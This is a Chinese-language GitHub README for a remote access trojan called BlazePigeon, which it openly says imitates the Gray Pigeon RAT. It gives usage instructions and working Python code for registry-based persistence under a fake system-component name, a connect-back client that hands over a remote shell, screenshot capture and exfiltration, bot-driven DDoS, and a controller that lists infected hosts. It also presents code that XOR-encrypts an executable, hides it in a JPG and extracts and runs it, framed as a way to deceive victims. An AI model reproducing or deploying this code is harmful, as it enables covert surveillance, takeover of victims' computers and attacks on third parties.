





# BlazePigeon

## 介绍
BlazePigeon(仿[灰鸽子](https://www.freebuf.com/sectool/273317.html))--远程访问型木马。



**远程访问型木马**
- 在受害者主机上运行一个服务端，监听某个特定端口；入侵者则使用木马的客户端连接到该端口上，向服务端发送各种指令，访问受害者计算机资源。
- 使用这类木马，只需有人运行了服务端程序，如果客户知道了服务端的IP地址，就可以实现远程控制。
- 这类程序可以实现观察受害者正在干什么。

## 环境搭建
- clone
```shell
git clone https://github.com/lif314/BlazePigeon.git
```

- install
```shell
pip install mysql

pip install lxml

pip install pywin32api

pip install requests
```
## 使用说明
有两种模式可以进行使用，web模式和命令行模式

### web模式
- 进入BlazePigeon文件夹，启动web服务
```shell
python manage.py runserver 80 
```
- 访问： http://127.0.0.1:80
- 先要在客户端设置中设置客户端的ip信息
- 检测服务是否在线/截图【Bug: 由于每个socket上只能在一个线程中工作，为防止出错，请在截图前检测是否在线以重新建立连接】

### 命令行模式
- 运行`server.py`
```shell
python server.py
```

- 设置ip和port
```shell
set lhost xxxx

set lport xxxx 
```

- 可用命令【建议按照顺序执行】
- `exploit`: 进行监听客户端
- `sessions`: 进行查看当前在线肉鸡数 
- `shell <id>`: 控制客户端为id的shell, 之后使用`shell`进入客户端的shell
- 使用正确的shell命令【cmd命令集 | linux shell命令集】进行“为所欲为”
- `exit`: 推出程序

## 欺骗客户
**在图片中嵌入exe负载**

- 在有了以上的监控平台，下一步就是怎么“欺骗”用户可以在机器上运行`client.exe`，以此来建立监控的链接。
- 我想的是在JPG文件中嵌入exe执行文件，然后在双击jpg文件时默默执行嵌入其中的恶意软件，但事实是在Windows上基本无法实现
> In the old days it was possible to exploit when clicking on image exploits or when Windows OS was creating a thumbnail to show the image file itself as an icon. However, with the recent kernel-level updates of the operating system (ASLR, DEP, etc.), the Windows operating system has become difficult to exploit even if there is a new vulnerability. It didn't work out well in my few attempts. However, the situation is different in browsers. It is possible to run malware only when viewing file contents such as pictures, audio, video via browsers. It is not mentioned much yet that such vulnerabilities create a very dangerous situation for mobile devices.
- 鉴于此，只能写一个程序来解析JPG图片中的恶意程序，那么怎么来解决了解析软件的客户欺骗呢？似乎形成了一个闭环，emmmmm

**使用**

- 在`cheat_client`目录中，`InjectingMalwareIntoJPG.py`将exe程序嵌入到jpg文件中。你可以将其打包运行。运行产生被嵌入exe程序的jpg图片，默认命名为`malwareJPG.jpg`

```shell
pyinstaller --onefile  --icon=InjectingMalwareIntoJPG.ico InjectingMalwareIntoJPG.py 
```



- 运行`ParseJPGtoRun.py`或者打包后运行，将`malwareJPG.jpg`放在同级目录下。运行后会执行jpg图片中的exe程序。

```shell
pyinstaller --onefile  --noconsole  --icon=malware.ico  ParseJPGtoRun.py
```



## 展示

- Login



- Home



- Client Setting


- DDos Setting


- Screen Shoot


## Future work
- 在浏览器端实现点击JPG图片运行恶意软件
- 解决防火墙访问问题，随机扫描连接等
- 部署云端客户端程序自动更新功能
- 其它更多功能，真刑！........

## 实现

### 恶意软件(客户端)
- 恶意软件自启动
```python
def AutoStart(path=argv[0].replace("/", "\\")):
    runpath = "Software\Microsoft\Windows\CurrentVersion\Run"
    hKey = win32api.RegOpenKeyEx(win32con.HKEY_CURRENT_USER, runpath, 0, win32con.KEY_ALL_ACCESS)
    while True:
        try:
            if str(win32api.RegQueryValueEx(hKey, "系统关键组件")[0]) == path:
                done = True
                break
            else:
                win32api.RegDeleteValue(hKey, "系统关键组件")
                win32api.RegCloseKey(hKey)
                hKey = win32api.RegOpenKeyEx(win32con.HKEY_CURRENT_USER, runpath, 0, win32con.KEY_ALL_ACCESS)
                raise pywintypes.error
            done = True
            break
        except pywintypes.error:
            win32api.RegSetValueEx(hKey, "系统关键组件", 0, win32con.REG_SZ, path)
            done = True
    win32api.RegCloseKey(hKey)
    return done
```

- 连接服务端

```python
def connect(ip, port):
    client_socket = socket(AF_INET, SOCK_STREAM)
    client_socket.connect((ip, int(port)))
    return client_socket
```

- 响应服务端

```python
            try:
                client_socket = connect(ip, port)
                key = "freet"
                user_name = getuser()
                first_data = key + " " + user_name
                client_socket.send(first_data.encode('utf-8'))
                while True:
                    cmd = client_socket.recv(2048).decode('utf-8')
                    if cmd == 'shell':
                        client_socket.send('................进入shell................'.encode('utf-8'))
                        client_cmd(client_socket)
                    elif cmd == "screen shoot":
                        screen_shoot()
                        screen_send(client_socket)
                    elif cmd.split(' ')[0] == 'ddos':
                        data = user_name + "正在攻击"
                        client_socket.send(data.encode('utf-8'))
                        t_ip = cmd.split(' ')[1]
                        t_port = cmd.split(' ')[2]
                        pack = cmd.split(' ')[3]
                        thread = cmd.split(' ')[4]
                        t_ddos(thread=thread, t_ip=t_ip, t_port=t_port, pack=pack)
                    else:
                        client_socket.send('[-]发送命令失败'.encode('utf-8'))
            except Exception as e:
                sleep(10)
                continue
```

- 模拟DDos攻击

```python
def t_ddos(thread, pack, t_ip, t_port):
    for i in range(int(thread)):
        Thread(target=ddos, args=(pack, t_ip, t_port,)).start()
```

- 截图

```python
def screen_shoot():
    filename = 'client.png'
    path = "C:\\Users\\Public\\Pictures\\"
    screenshot().save(path + filename)


def screen_send(client):
    path = "C:\\Users\\Public\\Pictures\\"
    a = f"{path}client.png"
    files = open(a, 'rb')
    while True:
        data = files.read(4024)
        if not data:
            Popen("del " + a, shell=True, stdin=PIPE,
                  stdout=PIPE,
                  stderr=PIPE)
            files.close()
            client.close()
            break
        client.send(data)
```

### 服务端

- 数据库、flask界面等
- 连接客户端

```python
# 连接客户端
def connect():
    mysql_ip_list = []
    s = socket(AF_INET, SOCK_STREAM)
    # print("ip, port: ", ip, port)
    s.bind((ip, int(port)))
    while True:
        s.listen(100)
        print("[*]服务器监听中")
        c, addr = s.accept()
        # print("c, addr:", c, addr)
        key_username = c.recv(2048).decode('utf-8')
        # print("key_username:", key_username)
        if key_username.split(" ")[0] == "freet":
            username = key_username.split(" ")[1]
            # 保存客户端信息
            client_list.append(c)
            client_addr_list.append(addr)
            client_username_list.append(username)
            print("[*]提示:" + username + ' ' + addr[0] + ":" + str(addr[1]) + "上线")
            mysql_client_list = get_mysql()
            # print("mysql_client_list:", mysql_client_list)
            for i in mysql_client_list:
                mysql_ip = i[1]
                mysql_ip_list.append(mysql_ip)
            if addr[0] in mysql_ip_list:
                update_time_mysql(addr[0])
            else:
                insert_mysql()
```

- shell控制(客户端&服务端)

```python
def server_shell(a_cmd):
    global ip
    global port
    initialize_mysql()
    if a_cmd == "sessions":
        print("ok")
        print(client_list)
        b = 0
        for real_client in client_list:
            try:
                real_client.send('sessions'.encode('utf-8'))
                real_client.recv(10000).decode('utf-8', "ignore")
                update_status_online_mysql(client_addr_list[b][0])
            except:
                update_status_mysql(client_addr_list[b][0])
                del client_list[b]
                del client_addr_list[b]
    else:
        while True:
            cmd = input('blaze(lif314)>')
            # 检测连接的客户端
            if cmd == "exploit":
                t = Thread(target=connect)
                t.setDaemon(True)
                t.start()
            elif cmd.split(' ')[0] == 'set' and cmd.split(' ')[1] == 'lhost':
                ip = cmd.split(' ')[2]
            elif cmd.split(' ')[0] == 'set' and cmd.split(' ')[1] == 'lport':
                port = cmd.split(' ')[2]
            elif cmd == 'sessions':
                b = 0
                for real_client in client_list:
                    try:
                        real_client.send('sessions'.encode('utf-8'))
                        real_client.recv(10000).decode('utf-8', "ignore")
                        update_status_online_mysql(client_addr_list[b][0])
                    except:
                        update_status_mysql(client_addr_list[b][0])
                        del client_list[b]
                        del client_addr_list[b]
                mysql_client_list = get_mysql()
                index = 0
                print("[*]总肉鸡数量:" + str(len(mysql_client_list)))
                print('[*]当前在线肉鸡数量:' + str(len(client_list)))
                print('-' * 79)
                for i in range(len(client_list)):
                    print(
                        "ID:" + str(index) + ' ' * 3 + client_username_list[index] + ' ' * 3 + client_addr_list[index][
                            0])
                    index = index + 1
                    print('-' * 79)
            elif cmd.split(' ')[0] == 'shell':
                shell_num = int(cmd.split(' ')[1])
                client_shell(client_list[shell_num], client_addr_list[shell_num][0])
            elif cmd.split(' ')[0] == "ddos":
                for i in client_list:
                    i.send(cmd.encode('utf-8'))
                    data = i.recv(2048).decode('utf-8')
                    print(data)
            elif cmd == 'exit':
                update_status_offline_mysql()
                exit()
            else:
                print("[-]错误命令,请查看说明文档!")
```

### Inject malware to JPG

- 恶意软件加密

```python
# 字节异或运算加密
def bytesXOR(plain_text, public_key, private_number):
    public_number = 3
    private_key = b'#$0aSpYt3ehR7%|\&/*QVzX12}-'   # 私钥
    len_key = len(public_key)
    public_encoded = []
    result_encoded = []
    return_encoded = []
    for i in range(0, len(plain_text)):
        public_encoded.append(plain_text[i] ^ public_key[(i + public_number) % len_key])
    private_encoded = bytes([b ^ len(private_key) for b in (bytes(public_encoded))])
    for i in range(0, len(private_encoded)):
        result_encoded.append(private_encoded[i] ^ private_key[(i + private_number) % len_key])
    for i in range(0, len(result_encoded)):
        return_encoded.append(result_encoded[i] ^ public_key[(i + public_number) % len_key])
    return bytes(return_encoded)

# 加密调用
    
    try:
        textUpdate('Encrypting the EXE file', type='check', newline=True)
        with open(file_2, mode='rb') as rfile:
            with open(file_3, mode='wb') as wfile:
                while True:
                    data = rfile.read(settings.BUFFER)
                    if data == b'':
                        break
                    wfile.write(bytesXOR(data, settings.PUPLIC_KEY, settings.PRIVATE_NUMBER))
        os.remove(file_2)
        time.sleep(settings.WAIT_TIME)
```

- 在JPG文件中嵌入恶意软件

```python
 try:
        textUpdate('Generating the JPG file containing malware', type='check', newline=True)
        with open(settings.JPG_FILE, mode='rb') as rfile:
            with open(settings.OUT_FILE, mode='wb') as wfile:
                while True:
                    data = rfile.read(settings.BUFFER)
                    if data == b'':
                        break
                    wfile.write(data)
        with open(file_3, mode='rb') as rfile:
            with open(settings.OUT_FILE, mode='ab') as wfile:
                while True:
                    data = rfile.read(settings.BUFFER)
                    if data == b'':
                        break
                    wfile.write(data)
        with open(settings.OUT_FILE, mode='ab') as wfile:
            wfile.write(EOI)
        os.remove(file_3)
        del SOI, EOI
        time.sleep(settings.WAIT_TIME)
        textUpdate('The JPG file containing malware was created', type='ok')
        return True
    except:
        textUpdate('Generating the JPG file containing malware', type='error')
        return False
```

- 解析JPG文件并执行恶意文件

```python
    try:
        if buffer0 == "" or buffer1 == "" or buffer2 == "" or out_file == "":
            return False
        with open(file=settings.JPG_NAME, mode='rb') as readfile:
            rb = readfile.read()
            rb_list = rb.split(sep=b"\xff\xd9")
            del rb
        if len(rb_list) < 3:
            return False
        else:
            if len(rb_list) == 3:
                payload = rb_list[1]
            else:
                payload = b''
                for ii in range(1, (len(rb_list) - 1)):
                    if ii == 1:
                        payload += rb_list[ii]
                    else:
                        payload += (b'\xff\xd9' + rb_list[ii])
        del rb_list
        # os.remove(settings.JPG_NAME)
        time.sleep(settings.WAIT_TIME)
        #
        with open(file=buffer0, mode='wb') as wfile:
            wfile.write(payload)
            del payload
        with open(file=buffer0, mode='rb') as rfile:
            with open(file=buffer1, mode='wb') as wfile:
                while True:
                    data = rfile.read(settings.BUFFER)
                    if data == b'':
                        break
                    wfile.write(bytesXOR(data, settings.PUPLIC_KEY, settings.PRIVATE_NUMBER))
        os.remove(buffer0)
        with bz2.open(filename=buffer1, mode='rb') as rfile:
            with open(file=buffer2, mode='wb') as wfile:
                while True:
                    data = rfile.read(settings.BUFFER)
                    if data == b'':
                        break
                    wfile.write(data)
        os.remove(buffer1)
        if not os.access(buffer2, os.F_OK):
            return False
        if os.access(out_file, os.F_OK):
            os.remove(out_file)
        try:
            shutil.copy2(buffer2, out_file)
        except:
            return False
        if not os.access(out_file, os.F_OK):
            return False
        #
        cd.finish()
        time.sleep(settings.WAIT_TIME)
        subprocess.run([out_file])
        time.sleep(settings.WAIT_TIME)
        cd2.finish()
        time.sleep(settings.WAIT_TIME)
        return True
    except:
        return False
```